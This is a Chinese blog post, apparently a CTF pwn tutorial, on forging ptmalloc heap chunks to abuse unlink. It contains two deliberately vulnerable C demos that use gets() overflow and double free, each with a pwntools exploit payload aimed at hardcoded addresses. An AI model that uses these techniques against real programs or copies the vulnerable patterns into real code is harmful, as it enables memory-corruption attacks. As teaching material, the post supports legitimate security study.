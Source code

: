 ```yaml
---
layout:     post
title:      "ptmalloc堆块伪造"
subtitle:   "基于unlink的check机制"
date:       2018-07-11 12:00:00
author:     "Chris"
catalog: true
tags:
    - pwn
    - Linux
 
---
```



##0x00原理
1.ptmalloc的相邻空块合并原则。

2.堆chunk本身的结构机制。

##0x01详解
堆chunk判断一个块是否为空仅仅依赖于相邻后块的**prev_size**和**最低flag位**。
如果在堆上构造合理的堆块结构，那么堆管理机制就会误以为我们的伪造的堆块是真正的空堆块。
当释放掉相邻的后块时（这个块是真的），就会触发空块合并。也就达成了堆块伪造的目的。

##0x02要求

有check的堆溢出利用。

* 有两个相邻的堆块
* 第一个堆块可溢出第二个
* 释放第二个堆，即可触发。

或者

* 有一个已分配的堆
* 有一个指向堆上的可控指针
* free参数可控

这种情况下，是在分配的一大块堆中强行构造出两块chunk。然后利用那个指向堆上的可控指针来实现free触发漏洞。
这其实是一种double free的利用方式，因为如果你分配了两块堆，然后把这两块堆都释放之后，这些内存会合并到top chunk中。当再次分配堆的时候，还是使用这些内存地址。

那么如果我们进行以下操作：



	1.分配两个堆
	2.释放掉这两个堆
	3.分配一个可以包含住前面两个堆的大堆块
	4.写入这个大堆块构造两个伪chunk
	5.通过第2步中释放两个堆

这样对于初始的两个堆来说，就像是double free了，当然本质还是堆块伪造。
##0x03用的效果
如果成功的使用了伪造堆，那么达到的效果是什么呢？首先，是不可能像unlink利用一样任意地址写了。
因为对于目前的ptmalloc来说，有如下check：
current->fd->bd!=current;
current->bd->fd!=current;
为了过掉这个检验我们会用一个指向堆块的全局指针的地址的一个偏移作为伪chunk的fd。
fd=ptr-12;
bd=ptr-8;
然后在断链的过程中，就会把**ptr**的值改成**&ptr-12**,感觉很鸡肋是吧？
毕竟费这么大力气只是把一个全局变量的值给改成了他的地址－0xC，但是这个东西确实是这么去利用的。
在CTF中会跟其他的漏洞或功能结合去使用。


##0x04演示
为了具体的说明问题，这里写了两个demo演示效果。
###Demo1


	void *global[80];
	
	void *global[80];
	
	int main(void)
	{
	    void *p1,*p2;
	    p1=malloc(200);
	    p2=malloc(200);
	    global[40]=p1;
	    printf("before exploit:%x\n",global[40]);
	    puts("read");//for debug
	    gets(p1);//overflow
	    free(p2);
	    printf("after exploit:%x\n",global[40]);
	    return 0;
	}


这是对应于第一种堆溢出覆盖下一块堆的情况的，如果使用下面的exp就会发现global中malloc返回的地址已经变成了 global[40]本身的地址－0xC

	from pwn import*
	io=elf('./demo1')
	io.recvuntil('read')
	sc=p32(0x0)+p32(0xc9)+p32(0x804A100-0xc)+p32(0x0804A100-0x8)+'a'*(200-16)+p32(0xc8)+p32(0xd0)
	io.sendline(sc)
	io.read()


###Demo2

	int *global[40];
	int main(void)
	{
	  void *p1,*p2,*p3;
	  p1=malloc(200);
	  p2=malloc(200);
	  global[20]=p1;
	  free(p1);
	  free(p2);
	  p3=malloc(500);
	  puts("get");//for debug
	  gets(p3);
	  free(p2);
	  return;
	}

这个Demo展示的是double free。可以看到对于p2指针来说确实是释放了两次。


	from pwn import*
	io=elf('./demo2')
	io.recvuntil('get')
	sc=p32(0x0)+p32(201)+p32(0x804a0b0-0xC)+p32(0x804a0b0-0x8)+'a'*(200-16)+p32(200)+p32(0x128)
	io.sendline(sc)
	io.read()

##0x05总结
这个exp就可以实现利用，感觉这个exp的伪堆块构造要比上面Demo更复杂一些。这个exp我搞了好久，因为不知道为什么一直会触发free的check导致程序崩溃。后来查了一些资料终于明白了，必须要保证你分配的堆与你在其中构造的两个堆块的大小完全一致。
比方说我这里是malloc(500)，调试一下发现分配了504（鬼知道为什么），那么就是504-8-200=0x128，如果不跟分配的堆块边境符合的话就会触发check从而crash掉。




